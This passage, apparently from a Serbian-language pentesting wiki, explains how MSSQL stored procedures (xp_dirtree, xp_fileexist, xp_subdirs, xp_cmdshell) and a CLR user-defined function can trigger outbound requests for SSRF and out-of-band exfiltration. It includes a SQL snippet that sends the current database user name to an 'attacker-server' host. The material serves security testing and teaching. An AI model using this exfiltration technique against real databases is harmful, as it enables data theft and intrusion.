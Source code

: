 #### `xp_dirtree`, `xp_fileexists`, `xp_subdirs` <a href="#limited-ssrf-using-master-xp-dirtree-and-other-file-stored-procedures" id="limited-ssrf-using-master-xp-dirtree-and-other-file-stored-procedures"></a>

Procedura čuvanja kao što je `xp_dirtree`, iako nije zvanično dokumentovana od strane Microsoft-a, opisana je od strane drugih na internetu zbog svoje korisnosti u mrežnim operacijama unutar MSSQL-a. Ove procedure se često koriste u izvlačenju podataka van mreže, kao što je prikazano u raznim [primerima](https://www.notsosecure.com/oob-exploitation-cheatsheet/) i [postovima](https://gracefulsecurity.com/sql-injection-out-of-band-exploitation/).

Na primer, procedura čuvanja `xp_dirtree` se koristi za slanje mrežnih zahteva, ali je ograničena samo na TCP port 445. Broj porta nije moguće menjati, ali omogućava čitanje sa mrežnih deljenih resursa. Upotreba je prikazana u sledećem SQL skriptu:

```sql
DECLARE @user varchar(100);
SELECT @user = (SELECT user);
EXEC ('master..xp_dirtree "\\' + @user + '.attacker-server\\aa"');
```

Važno je napomenuti da ova metoda možda neće raditi na svim konfiguracijama sistema, kao na primer na `Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)` koji se izvodi na `Windows Server 2016 Datacenter` sa podrazumevanim podešavanjima.

Dodatno, postoje alternativne uskladištene procedure poput `master..xp_fileexist` i `xp_subdirs` koje mogu postići slične rezultate. Dodatne detalje o `xp_fileexist` možete pronaći u ovom [TechNet članku](https://social.technet.microsoft.com/wiki/contents/articles/40107.xp-fileexist-and-its-alternate.aspx).

#### `xp_cmdshell` <a href="#master-xp-cmdshell" id="master-xp-cmdshell"></a>

Očigledno, takođe možete koristiti **`xp_cmdshell`** da **izvršite** nešto što pokreće **SSRF**. Za više informacija **pročitajte relevantni odeljak** na stranici:

{% content-ref url="../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/" %}
[pentesting-mssql-microsoft-sql-server](../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/)
{% endcontent-ref %}

#### MSSQL Korisnički definisana funkcija - SQLHttp <a href="#mssql-user-defined-function-sqlhttp" id="mssql-user-defined-function-sqlhttp"></a>

Kreiranje CLR UDF (Common Language Runtime User Defined Function), što je kod napisan na bilo kom .NET jeziku i kompajliran u DLL, da bi se učitao unutar MSSQL-a radi izvršavanja prilagođenih funkcija, je proces koji zahteva pristup `dbo`. To znači da je obično izvodljivo samo kada je veza sa bazom podataka uspostavljena kao `sa` ili sa administratorskom ulogom.

Projekat u Visual Studiju i uputstva za instalaciju su dostupni u [ovom Github repozitorijumu](https://github.com/infiniteloopltd/SQLHttp) kako bi se olakšalo učitavanje binarnog fajla u MSSQL kao CLR skup, čime se omogućava izvršavanje HTTP GET zahteva unutar MSSQL-a.

Srž ove funkcionalnosti je sadržana u fajlu `http.cs`, koji koristi klasu `WebClient` za izvršavanje GET zahteva i dobijanje sadržaja, kako je prikazano u nastavku:
